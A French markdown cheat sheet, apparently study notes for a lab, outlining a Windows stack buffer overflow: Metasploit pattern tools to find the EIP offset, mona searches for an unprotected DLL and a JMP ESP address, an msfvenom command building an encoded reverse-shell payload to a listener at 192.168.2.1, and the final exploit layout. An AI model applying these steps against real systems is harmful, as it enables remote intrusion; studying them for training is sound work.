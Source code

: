 ## Reverse

- Création d'un pattern d'une longueur de 800
```bash
/opt/metasploit/tools/exploit/pattern_create.rb -l 800
```
- Envoie du pattern dans la section vulnérable
- Lire la valeur de EIP dans le débuggeur lorsque le programme à planté
- Calcul de l'offset
```bash
/opt/metasploit/tools/exploit/pattern_offset.rb -l 800 -q <value EIP>
```
- Vérifier que l'offset est correcte en écrivant  `offset * "A" + 4 * "B"` dans la section. La valeur de l'EIP doit être `42424242`
 - vérifier la place dispo pour la Payload, envoyant dans la section `offset * "A" + 4 * "B" + 80 * "C"`. Les "C" doivent être écrit dans la mémoire.
- chercher une DLL qui n'est pas sécurisé(Rebase, ASLR : False)
```
!mona modules
```
- vérifier la présence d'une instruction dans une DLL et liste les adresses de où se trouve l'instruction JMPESP (l'opcode de JMPESP est `\xff\xe4` ) 
```
!mona find -s "\xff\xe4" -m slmfc.dll
```
- Création d'un reverse shell
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.2.1  
LPORT=666 -f c -e x86/shikata_ga_nai -b "\x00\x0D\xFF"
```

| Paramètre | Valeur                    | Description            |
| --------- | ------------------------- | ---------------------- |
| -p        | windows/shell_reverse_tcp | type de payload        |
| LHOST     | 192.168.2.1               | adresse ip du listener |
| LPORT     | 666                       | port du listener       |
| -f        | c                         | export au format C     |
| -e        | x86/shikata_ga_nai        | encodeur               |
| -b        | "\x00\x0D\xFF"            | liste des Badchar      |


- Maintenant, créer l'exploit avec :
```
offset + Adresse de JMPESP(inversé) + nb * NoP + Shellcode
```